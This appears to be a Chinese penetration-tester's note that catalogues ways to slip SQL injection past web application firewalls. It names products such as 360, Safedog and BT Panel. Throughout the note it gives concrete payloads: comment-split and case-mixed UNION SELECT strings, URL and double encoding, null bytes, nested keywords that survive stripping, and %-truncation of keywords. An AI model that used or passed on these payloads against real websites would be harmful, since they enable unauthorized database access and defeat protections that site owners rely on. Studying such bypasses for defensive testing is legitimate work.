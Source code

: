 使用\%\%%\%\%\%0a代替空格
360绕过：
使用%0a代替空格
安全狗绕过：
使用`aid=123/*&id=12 and 1=1 &bid=123*/`绕过
宝塔绕过：
使用%截断关键字，即`id=123 an%%%%d 1%%%=%%1`，或者使用大小写混写
#主体/Waf  #方面/绕过方法  #时间/渗透中



## [[SQL注入漏洞|注入漏洞]]绕过waf
### （1）大小写变种
使用起来最简单，效果现在来说不太显著
比如：
`and 1=2`
`AnD 1=3`
### （2）使用SQL注释
使用起来简单，效果一般
`union select 1,2,3,4,5,5 from admin`
**注释完：**
`/**//**/select/**/1,2,3,4,5,5 from admin`
`/**/un/**/io/**/n/**/sel/**/ec/**/t/**/1,2,3,4,5,5 from admin`
**第二种注释：**
`/*!and*/ 1=2 ` 效果显著
### （3）使用URL编码
正常编码
`' 为%27  `
`/ =%2f    *==%2a   %=%25`
`/**/==%252f%252a*/`
### （4）使用空字节
一些过滤器在处理输入时，如果碰到空字节就会停止处理。
我们通常也会利用空字节进行绕过过滤器，如：
`id=1 %00 and 1=2`
access数据库中可以使用%0a代替空格  `%0a%a + %%%%0a`
mysql中`/**/代替空格  /*and*/`
### （5）使用嵌套过剥离
有些过滤器会从用户的输入中进行剥离一些敏感的函数
那我们可以通过函数的嵌套进行绕过一次剥离，selselectect，剥离后，select
### （6）使用非标准入口点
说白了就是攻击他的冷门，需要自己去挖掘，一些连过滤器都没发现的注入点即可
### （7）避开自定义过滤器
一些过滤器他所过滤的字符串都是事先写入写好的，
只要我们输入的的语法和他们过滤的不匹配即可绕过。比如 and，转换为`a+nd，a%nd，'a'nd，%A0and`
### （8）更换提交方式
一些信息提交页面如果get提交不了，被防护，还可以试试post提交
### （9）截断关键字
access数据库中：
`%%%%`截断关键字 `an%%%%%d 1%%%%%=%%1` 可以使waf检测不到关键字
#主体/注入漏洞  #方面/绕过方法  #主体/Waf  #时间/渗透中
